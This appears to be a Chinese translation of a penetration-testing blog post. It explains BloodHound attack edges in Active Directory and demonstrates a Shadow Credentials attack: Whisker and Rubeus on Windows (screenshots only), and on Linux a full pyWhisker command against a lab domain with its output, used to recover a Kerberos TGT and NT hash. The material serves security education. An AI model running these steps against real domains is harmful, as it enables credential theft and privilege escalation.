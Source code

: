 额外的 BloodHound 边缘

我们现在看到了四 (4) 个我们以前没有看到的边缘。首先，让我们检查一下 _BloodHound_ 的滥用信息：

  *  **WriteDACL** ：这告诉我们可以添加 _GenericAll_ 权限，然后执行有针对性的 Kerberoast 攻击或强制密码重置。
  *  **AllExtendedRights** ：这让我们知道我们可以执行强制密码重置。
  *  **WriteOwner** ：这让我们知道我们可以更改对象的所有者并再次执行有针对性的 Kerberoast 攻击或强制密码重置。
  *  **AddKeyCredentialLink** ：在撰写此博客时，此边缘不存在帮助文本。

使用 _AddKeyCredentialLink_
权限，可以执行影子凭据攻击。虽然这种技术被认为是攻击者可以悄悄地在环境中持续存在的一种方式，但它对于特权升级也很有用，就像强制密码重置一样。

这使我们能够为用户恢复 Kerberos 票证并恢复他们的 NT 哈希，有效地充当单用户
DCSync。我不会详细介绍攻击的工作原理，因为这已经被广泛介绍了，但我将演示如何从 Windows 和 Linux 执行这种攻击。

## 来自 Windows 的影子凭证

可以使用Elad Shamir 的 _Whisker从 Windows 执行此攻击。_ 它使用起来非常简单，在添加 Shadow Credentials
后，它会输出证书和 _Rubeus_ 命令来恢复 Kerberos TGT 和 NT 哈希。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220310170416.png)

使用 Whisker 添加影子凭证

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220310170417.png)

使用 Rubeus 获取 TGT 和 NT 哈希

## 来自 Linux 的影子凭证

在 Linux 中，我们可以使用Charlie Bromberg 的 _pyWhisker执行此攻击。_

    
    
     # python3 pywhisker.py -d "n00py.local" -u "n00py" -p "PasswordForn00py" --target "esteban_da" --action "add" --filename hax  
    [*] Searching for the target account  
    [*] Target user found: CN=esteban da,OU=Employees,DC=n00py,DC=local  
    [*] Generating certificate  
    [*] Certificate generated  
    [*] Generating KeyCredential  
    [*] KeyCredential generated with DeviceID: 02b2e9ef-d55f-60fe-bca9-f254249a49af  
    [*] Updating the msDS-KeyCredentialLink attribute of esteban_da  
    [+] Updated the msDS-KeyCredentialLink attribute of the target object  
    [+] Saved PFX (#PKCS12) certificate & key at path: hax.pfx  
    [*] Must be used with password: dfeiecA9SZN75zJ7P5Zs  
    [*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools  
    

 **使用 pyWhisker 添加影子凭证**

一旦影子凭证就位，Kerberos TGT 和 NT 哈希就可以使用Dirk-jan Mollema的 PKINITtools 恢复。

    